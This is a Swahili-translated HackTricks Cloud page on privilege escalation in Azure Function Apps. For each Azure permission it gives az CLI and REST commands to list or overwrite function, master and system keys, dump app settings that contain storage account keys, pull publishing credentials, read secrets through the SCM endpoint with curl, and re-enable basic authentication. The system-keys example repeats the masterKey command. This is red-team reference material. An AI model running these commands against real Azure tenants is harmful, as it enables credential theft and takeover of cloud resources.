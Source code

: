 # Az - Functions App Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Function Apps

Angalia ukurasa ufuatao kwa maelezo zaidi:

{% content-ref url="../az-services/az-function-apps.md" %}
[az-function-apps.md](../az-services/az-function-apps.md)
{% endcontent-ref %}

### Microsoft.Web/sites/host/listkeys/action

Ruhusa hii inaruhusu kuorodhesha funguo za kazi, mkuu na mfumo, lakini si funguo za mwenyeji, za kazi iliyotajwa kwa: 

{% code overflow="wrap" %}
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

### Microsoft.Web/sites/functions/listKeys/action

Ruhusa hii inaruhusu kupata funguo za mwenyeji, za kazi iliyotajwa na:

{% code overflow="wrap" %}
```bash
az rest --method POST --uri "https://management.azure.com/subscriptions/<subsription-id>/resourceGroups/<resource-group>/providers/Microsoft.Web/sites/<func-name>/functions/<func-endpoint-name>/listKeys?api-version=2022-03-01"
```
{% endcode %}

### Microsoft.Web/sites/host/functionKeys/write

Ruhusa hii inaruhusu kuunda/update funguo za kazi kwa kazi iliyoainishwa na:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type functionKeys --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/masterKey/write

Ruhusa hii inaruhusu kuunda/update funguo kuu kwa kazi iliyoainishwa na:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/systemKeys/write

Ruhusa hii inaruhusu kuunda/update funguo za mfumo wa kazi kwa kazi iliyoainishwa na:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/config/list/action

Ruhusa hii inaruhusu kupata mabadiliko ya mazingira ya kazi. Ndani ya mabadiliko haya inaweza kuwa na uwezo wa kupata mabadiliko ya mazingira ya kawaida **`AzureWebJobsStorage`** au **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`** ambayo kwa kweli ina **funguo ya akaunti ya kufikia hifadhi ya blob ya kazi kwa ruhusa KAMILI**.

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}



### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

Ruhusa hii inaruhusu kuorodhesha wasifu wote wa uchapishaji ambao kimsingi unajumuisha **akili za msingi za uthibitishaji**:
```bash
# Gte creds
az functionapp deployment list-publishing-profiles \
--name basicauthenabled \
--resource-group Resource_Group_1 \
--output json
```
* **Method SCM**

Kisha, unaweza kufikia na hizi **basic auth credentials kwa URL ya SCM** ya programu yako ya kazi na kupata thamani za mabadiliko ya env:
```bash
# Get env variables values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v
```
_Note that the **SCM username** is usually the char "$" followed by the name of the app, so: `$<app-name>`._

Na hizi env variables zina **AccountKey** ya akaunti ya hifadhi inayohifadhi data ya programu ya kazi, ikiruhusu kudhibiti akaunti hiyo ya hifadhi.

Ikiwa unaona kwamba akreditif hizo zime **REDACTED**, ni kwa sababu unahitaji **kuwezesha chaguo la uthibitishaji wa msingi wa SCM** na kwa hiyo unahitaji ruhusa ya pili (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write):`

{% code overflow="wrap" %}
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'
```
{% endcode %}



{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
